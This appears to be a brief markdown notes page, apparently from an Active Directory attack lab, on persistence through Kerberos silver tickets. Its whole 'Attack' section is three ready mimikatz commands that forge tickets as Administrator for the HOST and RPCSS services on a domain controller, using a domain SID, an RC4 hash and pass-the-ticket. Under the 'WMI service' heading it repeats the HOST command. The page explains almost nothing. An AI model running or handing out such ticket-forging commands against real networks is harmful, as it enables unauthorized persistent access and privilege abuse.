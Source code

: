 # Persistence Silver Ticket

![Silver Ticket](persistence_silver_ticket.png)

## Index:
  1. [Attack](#attack)

## Attack

HOST service:
```
C:\AD\Tools\mimikatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:9407a301944bf60d059322952f56718a /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

```
WMI service:

```
C:\Windows\system32>C:\AD\Tools\mimikatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:9407a301944bf60d059322952f56718a /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

```
C:\AD\Tools\mimikatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:9407a301944bf60d059322952f56718a /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
